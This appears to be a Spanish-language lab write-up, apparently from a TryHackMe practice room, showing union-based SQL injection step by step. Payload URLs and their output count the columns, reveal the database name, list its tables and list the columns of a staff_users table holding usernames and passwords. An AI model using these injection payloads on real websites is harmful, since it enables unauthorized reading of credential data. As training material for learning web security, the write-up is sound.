 #### Encontramos el no de columas adecuado con UNION

```
https://website.thm/article?id=1 union select 1

SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

```

- son 3
```
https://website.thm/article?id=1 union select 1,2,3
```

#### Una consulta que no produzca resultados
- ponemos en 0 el id, asi podremos ver mas datos en la pagina, 

```
https://website.thm/article?id=0 union select 1,2,3

2
Article ID: 1
3

```

#### Sacamos el nombre de la base de datos

```
https://website.thm/article?id=0 union select 1,2,database()

2
Article ID: 1
sqli_one

```

#### Ahora sacamos el nombre de todas las tablas, concatenado con group_concat

```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

2
Article ID: 1
article,staff_users

```

#### Los campos de la tabla

```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

2
Article ID: 1
id,password,username

```

